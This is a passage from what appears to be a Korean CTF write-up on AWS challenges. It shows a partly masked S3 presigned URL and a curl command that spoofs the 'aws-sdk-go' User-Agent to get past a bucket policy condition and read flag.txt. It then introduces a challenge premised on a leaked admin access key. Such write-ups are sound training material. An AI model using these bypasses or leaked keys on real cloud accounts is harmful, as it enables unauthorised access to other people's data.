 ```
https://kickme-95f596XXXXXXXXXXXXXXXXXXfaa3052e.s3.us-east-1.amazonaws.com/flag.txt?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAXXXXXXXXXXXX6INU%2F20250715%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250XXXXXXX755Z&X-Amz-Expires=604800&X-Amz-SignedHeaders=host&X-Amz-Signature=6cefb6299d5XXXXXXXXXXXXXXXXXXXX243cdb833e7bdf92fc031d57e96818d9b
```

두 개의 텍스트 파일이 주어진다  

그냥 저 링크로 요청을 보내면 Access Denied가 뜬다..  

조건(Condition)을 보면 User-Agent를 `aws-sdk-go*`{: .filepath}로 설정해야 하는 것 같다  
<br>

---

![Image](/assets/img/250722_0/10.png)

```bash
curl -A "aws-sdk-go" "https://kickme-95f596XXXXXXXXXXXXXXXXXXfaa3052e.s3.us-east-1.amazonaws.com/flag.txt?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAXXXXXXXXXXXX6INU%2F20250715%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250XXXXXXX755Z&X-Amz-Expires=604800&X-Amz-SignedHeaders=host&X-Amz-Signature=6cefb6299d5XXXXXXXXXXXXXXXXXXXX243cdb833e7bdf92fc031d57e96818d9b
```

너무 쉽게 풀리는 문제였다..  
<br>

---

### Mary had a little lambda

> The Ministry of Australian Research into Yaks (MARY) is the leading authority of yak related research in Australia. They know a lot about long-haired domesticated cattle, but unfortunately not a lot about information security.
> 
> They have been migrating their yak catalog application to a serverless, lambda based, architecture in AWS, but in the process have accidentally exposed an access key used by their admins. You've gotten a hold of this key, now use this access to uncover MARY's secrets!

<br>

---
